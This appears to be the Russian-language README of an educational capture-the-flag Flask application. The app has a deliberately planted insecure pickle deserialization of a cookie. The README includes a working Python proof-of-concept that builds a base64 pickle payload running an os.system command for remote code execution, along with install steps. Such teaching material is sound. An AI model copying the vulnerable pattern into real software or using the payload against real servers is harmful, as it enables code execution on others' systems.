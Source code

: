 # TechLaunch Beta Waitlist - Уязвимое Flask приложение

## 📋 Описание проекта

TechLaunch - это демонстрационное веб-приложение для списка ожидания бета-тестирования, написанное на Flask. Приложение содержит преднамеренно внесенные уязвимости для образовательных целей в области кибербезопасности.

## ⚠️ Выявленные уязвимости

### 1. Небезопасная десериализация (CWE-502)
**Критичность:** Высокая  
**Расположение:** `app.py`, функция `thank_you()`

```python
# УЯЗВИМЫЙ КОД
manager_data = base64.b64decode(manager_cookie)
email_manager = pickle.loads(manager_data)  # RCE через pickle
```

**Воздействие:** Возможность выполнения произвольного кода на сервере

## 🔬 Proof of Concept

### Эксплойт для RCE через pickle

- После испекции запросов, отправляемых при вводе замечается base64-encoded строка в куках.
- Анализируем строку, расшифровываем и замечаем, что этот инстанс класса, который скорее всего десериализуется на сервере
Можно использовать данный скрипт для получения base64-encoded строки, которая после десериализации будет выполнять определенный код на сервере

```python
import pickle
import base64
import os

# Самый надежный способ - использовать tuple с функцией и аргументами
class RCE:
    def __reduce__(self):
        # Простая команда для проверки - создает файл
        return (os.system, ('touch /tmp/pwned_success_$(date +%s)',))

# Создаем payload
rce = RCE()
payload = pickle.dumps(rce)
encoded_payload = base64.b64encode(payload).decode()

print(encoded_payload)
```

Полученную строку необходимо вставить в куки (email-manager) вашей сессии на странице /thank-you и обновить ее
При обработке данного объекта на сервере произойдет Remote code execution. 

## 🛠️ Установка и запуск

### Локальная разработка

```bash
# Клонирование репозитория
git clone <repository-url>
cd ctf-4

# Установка зависимостей
pip install -r requirements.txt

# Запуск приложения
python app.py
```

### Docker развертывание

```bash
# Сборка образа
docker build -t techlaunch-app .

# Запуск контейнера
docker run -p 5000:5000 techlaunch-app
```

Приложение будет доступно по адресу: `http://localhost:5000`

## 📁 Структура проекта

```
ctf-4/
├── app.py                 # Основное Flask приложение
├── templates/
│   ├── index.html         # Главная страница
│   └── thank_you.html     # Страница подтверждения
├── requirements.txt       # Зависимости Python
├── Dockerfile            # Конфигурация Docker
└── README.md            # Документация
```

